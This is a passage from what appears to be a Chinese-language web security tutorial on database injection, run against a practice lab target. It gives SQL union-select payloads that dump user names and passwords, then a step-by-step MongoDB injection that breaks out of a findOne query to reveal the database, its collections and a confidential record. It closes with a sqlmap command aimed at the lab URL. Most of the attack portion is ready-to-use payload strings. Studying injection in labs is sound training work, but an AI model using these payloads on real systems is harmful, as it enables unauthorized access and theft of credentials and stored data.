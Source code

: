 ![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132511114-103955937.png)

- 爆数据：and 1=2 union select user_name,user_pwd from "sns_users"
  爆其他数据：and 1=2 union select user_name,user_pwd from "sns_users" where USER_NAME<>'hu'

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132604297-358155965.png)

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132608468-81621309.png)

- Mongodb

[MongoDB 查询文档 | 菜鸟教程 (runoob.com)](https://www.runoob.com/mongodb/mongodb-query.html)

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132521287-379411331.png)

如何构造payload？
正常写法：select * from news where id=1
mdb数据库写法：select * from news where id={('$id')}，需要闭合符号

原始语句：db.notice.findOne({'id':'$id'});return data;
如果 ?id=1 order by 2
那么语句就会变成：db.notice.findOne({'id':‘1 order by 2’});return data;，语句不正确。
但是注入语句 ?id=1'}); return ({title:tojson(db),content:'1
那么语句就变成：db.notice.findOne({'id':‘1'}); return ({title:tojson(db),content:'1'});return data; ，就可以进行正常的注入。
测回显：/new_list.php?id=1'}); return ({title:1,content:'2

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132511662-766688999.png)

爆库：  /new_list.php?id=1'}); return ({title:tojson(db),content:'1
记录数据库：mozhe_cms_Authority

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132511880-1624057672.png)

爆表： /new_list.php?id=1'}); return ({title:tojson(db.getCollectionNames()),content:'1  
db.getCollectionNames()返回的是数组，需要用tojson转换为字符串。
记录表名："Authority_confidential", "notice", "system.indexes"

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132514213-2138427310.png)

爆字段：/new_list.php?id=1'}); return ({title:tojson(db.Authority_confidential.find()[0]),content:'1
db.Authority_confidential是当前用的集合（表），find函数用于查询，0是第一条数据

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132514717-445053814.png)

### 3.9.4.2 数据库注入-sqlmap-DB2&SQLite&Sybase

基本上数据库都差不多的，所有本次用到Oracle数据库作为实验。有一些数据库SQLmap不支持，比如nosql等。
测试注入点：python310 sqlmap.py -u "http://219.153.49.228:40042/new_list.php?id=1"
测试的结果保存在：C:\Users\我是正经人z\AppData\Local\sqlmap\output\219.153.49.228

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132515400-1341455740.png)

